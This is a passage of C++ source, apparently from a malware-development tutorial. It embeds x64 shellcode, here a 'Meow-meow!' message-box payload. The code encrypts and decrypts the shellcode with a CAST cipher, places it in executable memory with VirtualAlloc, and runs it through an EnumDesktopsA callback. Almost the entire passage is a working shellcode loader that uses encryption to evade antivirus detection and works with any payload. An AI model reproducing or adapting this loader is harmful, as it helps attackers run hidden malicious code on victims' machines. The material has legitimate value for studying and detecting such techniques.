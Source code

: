 ```cpp
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```
